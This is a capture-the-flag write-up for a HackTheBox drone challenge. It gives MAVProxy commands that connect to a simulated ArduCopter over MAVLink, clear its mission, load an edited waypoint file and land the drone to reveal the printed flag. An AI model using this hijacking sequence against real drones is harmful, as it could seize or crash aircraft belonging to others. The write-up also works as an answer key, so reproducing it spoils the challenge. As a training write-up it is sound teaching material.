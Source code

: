 # MAVLink Phantom UAV Takeover CTF Challenge - Writeup

## Challenge Overview

**Name:** Phantom UAV Takeover - Operation Sky Recon Intercept  
**Platform:** HackTheBox Global Cyber Benchmark 2025  
**Category:** Hardware  
**Difficulty:** Medium  
**Objective:** Intercept and redirect an enemy surveillance drone to a secure landing zone before it transmits intelligence data  
**Flag:** `HTB{ph4nt0m_u4v_t4k3_0v3r}`

### Target Details
- MAVLink endpoint: `tcp:83.136.252.21:31749`
- Web interface: `http:83.136.252.21:40088`
- Secure landing zone: `-35.36276, 149.165771`
- Protocol: MAVLink over TCP

## Tools Required

- **MAVProxy** - MAVLink ground station software
- **Text editor** - For waypoint file manipulation
- **Web browser** - To check web interface (optional)

### Installation
```bash
# Install MAVProxy
pip install mavproxy
# Or using uv
uv pip install mavproxy
```

## Discovery Phase

### Initial Connection
Connected to the drone and discovered it was running ArduCopter in SITL mode:
```bash
mavproxy.py --master=tcp:83.136.252.21:31749

# Output revealed:
# AP: ArduCopter V4.7.0-dev (5b498fca)
# AP: sitl-unknown-0
# Frame: QUAD/X
```

### Mission Analysis
Checked current mission status:
```bash
wp list
# Result: 1 waypoint at -35.3534999, 149.2344001
# Drone was flying an octagonal patrol pattern
```

## The Challenge

Standard MAVLink navigation commands failed with "No click position available" error:
```bash
guided -35.36276 149.165771 50        # Failed
wp add -35.36276 149.165771 50        # Failed  
position -35.36276 149.165771 0       # Failed
```

This indicated MAVProxy expected GUI/map click input rather than command-line coordinates.

## Solution

### Step 1: Export Current Waypoints
```bash
wp list
```
This command displayed the current waypoint AND saved it to `way.txt`

### Step 2: Clear Existing Mission
```bash
wp clear
```

### Step 3: Edit Waypoint File
Exited MAVProxy and edited `way.txt` to change coordinates:
- Original: `-35.3534999 149.2344001`
- Changed to: `-35.36276 149.165771` (secure landing zone)

### Step 4: Load Modified Waypoints
```bash
wp load way.txt
```

### Step 5: Execute Mission
```bash
mode auto
```
The drone began flying to the new waypoint at the secure landing zone.

### Step 6: Land and Capture Flag
```bash
mode land
```
Upon landing in the RF jamming zone, the flag was revealed: `HTB{ph4nt0m_u4v_t4k3_0v3r}`

## Key Insights

1. **File-based Input Bypass**: When GUI input is required, file manipulation can provide an alternative attack vector
2. **Waypoint Persistence**: MAVProxy's `wp list` command automatically saves waypoints to a file
3. **Mission Override**: Clearing and reloading waypoints effectively hijacks the drone's mission
4. **Protocol Knowledge**: Understanding MAVLink waypoint management was crucial

## Lessons Learned

- **Think Outside the GUI**: Command-line tools may have file-based alternatives to graphical interfaces
- **Check Auto-save Features**: Commands that display data often save it to files as well
- **Simple Solutions Work**: File editing bypassed complex MAVLink command requirements
- **Mission Planning Vulnerabilities**: Autonomous systems that accept waypoint updates can be redirected

This challenge demonstrated a realistic drone hijacking scenario where understanding the tool's file I/O behavior provided the winning approach when direct commands failed.